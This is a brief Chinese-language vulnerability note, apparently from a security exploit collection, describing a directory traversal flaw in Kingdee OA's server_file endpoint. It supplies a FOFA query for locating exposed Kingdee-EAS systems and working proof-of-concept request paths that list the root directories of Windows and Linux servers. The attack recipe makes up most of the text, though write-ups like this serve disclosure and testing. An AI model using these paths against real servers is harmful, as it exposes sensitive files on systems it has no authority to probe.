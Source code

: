 # 金蝶OA server_file 目录遍历漏洞

## 漏洞描述

金蝶OA server_file 存在目录遍历漏洞，攻击者通过目录遍历可以获取服务器敏感信息

## 漏洞影响

```
金蝶OA
```

## FOFA

```
app="Kingdee-EAS"
```

## 漏洞复现

登录界面为



![1](./images/202202090144781.png)

漏洞POC

```plain
/appmonitor/protected/selector/server_file/files?folder=/&suffix=

# Windows服务器
appmonitor/protected/selector/server_file/files?folder=C://&suffix=

# Linux服务器
appmonitor/protected/selector/server_file/files?folder=/&suffix=
```

![2](./images/202202090144057.png)